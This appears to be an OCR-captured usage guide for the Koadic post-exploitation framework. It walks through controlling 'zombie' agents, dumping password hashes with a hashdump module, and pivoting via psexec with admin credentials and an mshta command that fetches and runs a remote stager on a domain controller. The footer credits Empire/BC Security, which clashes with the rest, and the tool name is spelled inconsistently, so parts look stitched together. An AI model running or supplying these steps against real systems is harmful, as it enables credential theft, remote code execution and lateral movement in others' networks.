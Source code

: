 
### Working with Zombies (Agents)

Once a victim executes the stager and connects back:

```
[+] Zombie 0: Staged 7PK8JLIO on WIN-7PD78NVKJSB (WinRM) @ 192.168.1.10

koadick >> zombies

Available zombies:
    * 0: WIN-7PD78NVKJSB (WinRM) - 192.168.1.10

koadick >> use zombie 0

[zombie/0]>> info

    Displayed Name: WIN-7PD78NVKJSB (WinRM)
    IP: 192.168.1.10
    User: WIN-7PD78NVKJSB\vagrant
    Domain: WIN-7PD78NVKJSB
    OS: Windows 10 Enterprise Evaluation (64-bit)
    Windows: 10.0.17763
    Arch: AMD64
    Stager: mshta
    Session: 7PK8JLIO
    Last Seen: Tue Dec 14 14:05:23 2023
```

### Executing Modules

Koadic includes various modules for post-exploitation activities:

```
[zombie/0]>> use implant/gather/hashdump

[implant/gather/hashdump]>> run

[+] ADMIN: aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
[+] DefaultAccount: aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
[+] Guest: aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
[+] vagrant: aad3b435b51404eeaad3b435b51404ee:e02bc503339d51f71d913c245d35b50b
```

### JScript RAT Usage

One of Koadic's strengths is its JScript Remote Access Trojan capabilities:

```
[zombie/0]>> use implant/pivot/exec_psexec

[implant/pivot/exec_psexec]>> set RHOST 192.168.1.12
[implant/pivot/exec_psexec]>> set SMBUSER administrator
[implant/pivot/exec_psexec]>> set SMBPASS Password123!
[implant/pivot/exec_psexec]>> set CMD mshta.exe http://192.168.1.100:8080/mshta
[implant/pivot/exec_psexec]>> run

[+] Zombie 1: Staged 9FGK7WER on DC01 (Domain Controller) @ 192.168.1.12
```


 [Version]: 4.6.0 BC Security | [Web]: https://github.com/BC-SECURITY/Empire